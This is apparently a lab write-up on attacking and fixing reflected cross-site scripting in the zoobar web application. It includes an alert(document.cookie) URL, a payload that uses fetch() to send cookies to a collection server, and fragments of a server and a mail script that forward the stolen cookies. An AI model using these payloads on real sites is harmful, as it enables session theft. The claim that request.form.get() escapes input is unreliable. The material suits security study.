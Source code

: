 # 3. Browser Protection
## 3.1. Remote Execution - Reflected Cross-site Scripting 

The goal is to create a URL that, when accessed, will cause the victim's browser to execute some JavaScript you as the attacker has supplied.
* When examining a URLs, there is one where the parameter is sent along with the URL, and then reflected back to the user view. 
* The url is http://localhost:8080/zoobar/index.cgi/users?user=user_name
* The user_name parameter is reflected back to the search box in the users page and its actually part of the value attribute of the input tag
* By replacing the user_name with a javascript code, we can execute the javascript code in the victim's browser
* The javascript code that will be executed is alert(document.cookie); which will pop up an alert box with the victim's cookies
* in order to execute the javascript code, we need to escape the double quotes and the angle brackets.
* The final url will be http://localhost:8080/zoobar/index.cgi/users?user=%22%3Cp%3E%3Cscript%3Ealert(document.cookie);%3C/script%3E%3C/p%3E%22
* this will translate to ``` "<p><script>alert(document.cookie);</script></p>" ``` which will be reflected and print the victim's cookies in an alert box

### Following are screenshots of the attack:

#### finding the reflected parameter:

<img alt="image" src="https://user-images.githubusercontent.com/13490629/220351090-0779ae1b-2759-4572-a71c-edab7bb23eda.png" width="500"/>

#### finding the dom element that affected by the reflected parameter:

<img alt="image" height="500" src="https://user-images.githubusercontent.com/13490629/220351201-c61efa0b-17c8-4b2d-b61e-2cf8f8ff17aa.png"/>

#### testing the attack:

![image](https://user-images.githubusercontent.com/13490629/220351284-d2ba3c53-f03c-4e76-b878-cf627d515ef0.png)


## 3.2. Steal Cookies
* creating different url from previous attack, this making sure that the victim won't notice the attack
```html
 <!-- original source -->
<input type="text" name="user" value="{{ req_user }}" size=10></span><br>
<!-- the final payload -->
"size=10><script>fetch(`http://localhost:3000/cookie/${document.cookie}`)</script><input type="hidden
```
* creating **"send_mail.sh"** shell script that will send the cookies to my mail
```shell
#!/bin/bash 
.
echo "Cookie value is: $1" | mail -s "$SUBJECT" "$TO"
.
.
```

* creating python server **"evil_server.py"** that will listen to the request and get the cookies as request parameter
* the python server will execute the shell script and send the cookies to my mail
```python
.
server = HTTPServer((host, port), RequestHandler)
.
.
cookie = os.path.basename(path).replace('cookie/', '')
.
.
output = subprocess.check_output(['sh', 'send_mail.sh', cookie])
.
.
```
## 3.3. Protect, Fix the XSS Vulnerability

* To fix the vulnerability, we need to escape the user input before printing it to the page using request.form.get() function
* this way, the input will be escaped and won't reflect directly to the page
* the line that need to be changed is in the **"users.html"** file
```html
- <!--<input type="text" name="user" value="{{ req_user }}" size=10></span><br>-->
+ <input type="text" name="user" value="{{ request.form.get('user', '') }}" size=10></span><br>
```



